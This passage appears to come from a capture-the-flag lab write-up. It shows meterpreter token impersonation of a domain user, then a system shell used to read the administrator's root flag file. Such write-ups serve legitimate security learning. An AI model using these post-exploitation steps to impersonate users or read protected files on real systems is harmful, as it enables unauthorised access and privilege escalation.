 ```

meterpreter > impersonate_token RE\\coby
[+] Delegation token available
[+] Successfully impersonated user RE\coby
```

And I can now read the flag:

```
meterpreter > shell
Process 3760 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1B4FB90...
```